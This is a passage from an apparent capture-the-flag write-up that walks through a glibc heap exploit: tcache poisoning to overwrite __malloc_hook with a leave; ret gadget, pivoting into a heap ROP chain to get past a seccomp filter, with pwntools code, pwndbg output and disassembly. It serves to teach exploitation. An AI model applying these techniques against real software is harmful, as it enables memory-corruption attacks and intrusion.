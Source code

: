 ```python
payload += p64(pop_rdx) + p64(0x100)
payload += p64(pop_rax) + p64(1)
payload += p64(syscall)

# ROP chain will start at heapbase+0xa88
buy(3, 0x210, payload)
```

Now that the ROP chain is on the heap at a known address, the next allocation will give us a chunk right on top of `heapbase+0x40`. We will use this chunk to overwrite the 0x210 tcache bin pointer to point to `__malloc_hook`:
```c
pwndbg> smallbin
smallbins
0x220 [corrupted]
FD: 0x55d424dd7a40 ◂— 'ZZZZZZZZZZZZZZZZZZZZZZZZ/home/vagrant/flag'
BK: 0x55d424dd7040 —▸ 0x55d424dd79b0 ◂— 0x0 // We are given whatever bk points to
```
```python
# Overwrite the 0x210 sized chunk tcache bin with pointer to __malloc_hook
buy(2, 0x210, p64(0)*0x20 + p64(malloc_hook))
```
```c
pwndbg> tcachebin
tcachebins
0x20 [  1]: 0x0
0x30 [  1]: 0x0
0x90 [  2]: 0x0
0x220 [  7]: 0x7f8caef98c30 (__malloc_hook) ◂— 0x0
0x3b0 [  1]: 0x5647d9022b50 ◂— 0x0
```

Now, since the `buy_super_house` function calls `malloc(0x217)`, if we try to buy a super house, it will actually give us a chunk on `__malloc_hook`.

We can't overwrite `__malloc_hook` with a one gadget, since the `execve` syscall is not whitelisted by **seccomp**. The way **Balsn** bypasses this is just absolutely amazing. They overwrite `__malloc_hook` with a `leave; ret` gadget. Why they do it is explained below, but first, in order to overwrite `__malloc_hook`, just do the following:
```python
# Overwrite __malloc_hook with a leave; ret gadget
super_house(p64(leave_ret)) # __mpn_mul_n+83
```

Now why does this work?

In order to understand it, we actually have to look at the disassembly for `__libc_calloc`. When `__libc_calloc` is called, assuming that `__malloc_hook` is not `NULL`, the following control flow is observed:
```c
mov     rdx, rdi
push    r14
mov     eax, 0FFFFFFFFh
push    r13
or      rdx, rsi
push    r12
push    rbp
mov     rbp, rdi // [1]
push    rbx
imul    rbp, rsi // [2]
cmp     rdx, rax
jbe     short loc_99A28

loc_99A28:
mov     rax, &__malloc_hook
mov     rax, [rax]
test    rax, rax
```